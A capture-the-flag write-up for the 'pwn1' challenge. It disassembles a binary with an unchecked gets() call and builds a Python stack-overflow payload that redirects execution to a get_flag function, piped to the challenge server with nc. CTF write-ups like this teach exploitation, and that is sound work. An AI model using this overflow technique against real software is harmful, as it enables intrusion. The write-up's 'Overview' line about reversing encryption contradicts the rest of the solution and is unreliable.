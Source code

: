 ## pwn1 - 40 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2015-12-8

### Problem ###
First pwnable, this should be nice and easy.
`nc pwn.problem.sctf.io 1337.`

### Hint ###
Read up on Buffer Overflows.

## Answer ##

### Overview ###
Reverse the encryption on the flag.enc

### Details ###
```asm
                public get_flag
get_flag        proc near
                push    ebp
                mov     ebp, esp
                sub     esp, 18h
                mov     dword ptr [esp], offset command ; "cat flag.txt"

loc_80484BA:                            ; DATA XREF: BFFFF6F9r
                call    _system
                leave
                retn
get_flag        endp

                public bo
bo              proc near               ; CODE XREF: main+15p

s               = byte ptr -28h

                push    ebp
loc_80484C2:
                mov     ebp, esp
                sub     esp, 38h
                lea     eax, [ebp+s]
                mov     [esp], eax      ; s
                call    _gets
                lea     eax, [ebp-28h]
                mov     [esp+4], eax
                mov     dword ptr [esp], offset format ; "You said: %s\n"
                call    _printf
                leave
                retn
bo endp
```

Super simple stack overflow. The stack will return at an address at ebp + 0x2c so you just overflow that much.

Then you give it the address of the get_flag func.

```python
rop = 'A'*0x2c
rop += '\xad\x84\x04\x08'
print rop
```

After that just pipe it into the process and bam.

    python rop.py | nc pwn.problem.sctf.io 1337

### Flag ###

    flag{that_was_so_easy_i_wont_leetify_this_flag}
    
